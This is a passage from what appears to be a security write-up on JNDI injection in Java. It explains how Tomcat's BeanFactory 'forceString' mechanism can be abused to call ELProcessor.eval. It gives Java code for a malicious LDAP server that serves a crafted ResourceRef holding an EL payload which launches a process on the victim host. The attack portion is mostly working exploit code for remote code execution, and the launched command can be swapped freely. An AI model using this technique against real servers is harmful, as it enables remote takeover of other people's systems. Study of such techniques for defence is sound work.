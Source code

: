 Consider a "forceString" with content "x=eval", "eval" will become the setter name, the map `forced` will result in `"x": Method(xx.eval)`. 
Next, `BeanFactory` extracts all references and finally invoke the setter.
```java
Enumeration<RefAddr> e = ref.getAll();
while (e.hasMoreElements()) {
	ra = e.nextElement();  
	String propName = ra.getType(); 
	value = (String)ra.getContent();  
	Object[] valueArray = new Object[1];  
	Method method = forced.get(propName);
	if (method != null) {  
	    valueArray[0] = value;  
	    try {  
	        method.invoke(bean, valueArray);  
	    } catch (IllegalAccessException|  
	             IllegalArgumentException|  
	             InvocationTargetException ex) {  
	        throw new NamingException  
	            ("Forced String setter " + method.getName() +  
	             " threw exception for property " + propName);  
	    }  
	    continue;  
	}
}
```
So we can include a string reference to the evil reference with attribute type "x" and put EL expression in the content. As a result, the `propName` will be "x" and `valueArray` will contain our EL expression. 

We are writing our own malicious LDAP server (or RMI) that responds with a crafted `ResourceRef` object:
```java
String payloadTemplate = "{" +  
        "\"\".getClass().forName(\"javax.script.ScriptEngineManager\")" +  
        ".newInstance().getEngineByName(\"JavaScript\")" +  
        ".eval(\"{replacement}\")" +  
        "}";
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",  
        true, "org.apache.naming.factory.BeanFactory", null);  
ref.add(new StringRefAddr("forceString", "x=eval"));
ref.add(new StringRefAddr("x", payloadTemplate.replace("{replacement}", "new java.lang.ProcessBuilder['(java.lang.String[])'](['calc.exe']).start()")));

Entry entry = new Entry();
e.addAttribute("javaClassName", "java.lang.String"); //could be any
e.addAttribute("javaSerializedData", Util.serialize(ref));

result.sendSearchEntry(e);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
```



[^1]: [探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖](https://tttang.com/archive/1405/#toc_0x02-xxe-rce)
[^2]: [半自动化挖掘request实现多种中间件回显 | 回忆飘如雪](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
[^3]: [Java反序列化回显学习之Tomcat通用回显 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/200930.html)